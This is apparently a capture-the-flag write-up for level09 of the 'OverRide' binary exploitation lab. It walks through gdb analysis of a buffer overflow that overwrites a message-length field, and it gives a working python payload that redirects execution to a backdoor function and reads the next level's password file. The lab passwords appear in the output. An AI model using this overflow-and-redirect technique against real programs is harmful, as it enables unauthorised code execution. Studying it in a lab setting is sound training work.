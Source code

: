 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

The function `set_msg()` calls `fgets` which reads 1024 bytes into the buffer of 128 bytes.

Then it copy at most len characters `buffer+180`, from source `str` into destination `buffer`.
```gdb
   0x5555555549a2 <set_msg+112>:	mov    rax,QWORD PTR [rbp-0x408]
=> 0x5555555549a9 <set_msg+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x5555555549af <set_msg+125>:	movsxd rdx,ea
```
The value of message length, `buffer+180` can be overwirtten using `username`.
With a large message there is possibility to overwrite saved RIP of `handle_msg()`

To find offset, calculate difference between `savedRIP` and the `buffer`:
```gdb
[...]
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
�>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[...]
Breakpoint 7, 0x0000555555554924 in handle_msg ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$
gdb-peda$ x/64wx 0x7fffffffe4b0
0x7fffffffe4b0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4c0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4d0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe500:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe510:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe520:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe530:	0x42424242	0x42424242	0x42424242	0x41414141
0x7fffffffe540:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe550:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe560:	0x0a414141	0x0000008c	0xffffe580	0x00007fff
0x7fffffffe570:	0xffffe580	0x00007fff	0x55554abd	0x00005555
0x7fffffffe580:	0x00000000	0x00000000	0xf7a3d7ed	0x00007fff
0x7fffffffe590:	0x00000000	0x00000000	0xffffe668	0x00007fff
0x7fffffffe5a0:	0x55554000	0x00000001	0x55554aa8	0x00005555
gdb-peda$ p/d 0x7fffffffe578-0x7fffffffe4b0
$33 = 200
gdb-peda$
```
```gdb
gdb-peda$ print secret_backdoor
$35 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
By overwritting message length byte and using offset followed by the address of `secret_backdoor()` function, the flow of program can be modified.


# Exploit
```sh
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('Q', 0x55555555488c))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
